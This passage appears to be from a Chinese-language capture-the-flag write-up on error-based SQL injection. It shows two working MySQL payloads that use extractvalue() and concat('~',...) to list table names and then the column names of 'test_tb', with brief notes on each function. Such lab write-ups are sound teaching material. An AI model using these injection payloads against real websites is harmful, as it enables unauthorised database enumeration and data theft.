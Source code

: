 ![image-20250806223253768](nssctf1.assets/image-20250806223253768.png)

- **`extractvalue()`**: XML 解析函数，故意构造错误实现信息泄露
- **`concat('~',...)`**: 添加非法字符 `~` 触发报错
- **`select database()`**: 获取当前数据库名

 发现test_db，继续进行爆表

```sql
1' union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3#
```

![image-20250806223355053](nssctf1.assets/image-20250806223355053.png)

- **`information_schema.tables`**: 系统表存储所有表信息
- **`table_schema=database()`**: 限定当前数据库
- **`group_concat(table_name)`**: 合并所有表名

出现test_tb,users表名，在test_tb表中继续进行爆字段名

```sql
1' union select 1,extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='test_tb'))),3#
```

![image-20250806223508259](nssctf1.assets/image-20250806223508259.png)
